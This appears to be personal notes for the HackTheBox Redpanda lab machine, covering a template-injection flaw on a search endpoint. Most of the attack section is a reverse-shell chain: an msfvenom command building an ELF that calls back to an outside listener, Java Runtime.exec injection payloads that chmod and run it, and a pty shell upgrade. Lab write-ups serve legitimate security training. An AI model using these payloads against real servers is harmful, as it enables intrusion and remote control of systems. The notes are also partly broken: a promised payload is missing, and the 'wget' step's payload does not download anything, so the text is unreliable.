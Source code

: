 # HackTheBox Redpanda machine notes

## SSTI
- For some reason always returning process instead of the command response
- Possible SSTI (POST HTTP endpoint /search) payload = "name='*{ssti}'" (not possible with dollar sign for some reason)

- Not let's remember that $ and _ characters are banned, so we need to use the SSTI-PAYLOAD generator that will encode it to another format
- The payload looks like this: 


# How to estabilish reverse shell
1. Generate ELF file: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=31337 -f elf > r.elf
2. Make the target download the file with wget like this: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
3. Give every permission to file: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('chmod 777 ./r.elf').getInputStream())}
4. Start netcat listener at our host and run the file at target: *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('./r.elf').getInputStream())}
5. Make an interactive python shell like this: python -c 'import pty; pty.spawn("/bin/sh")'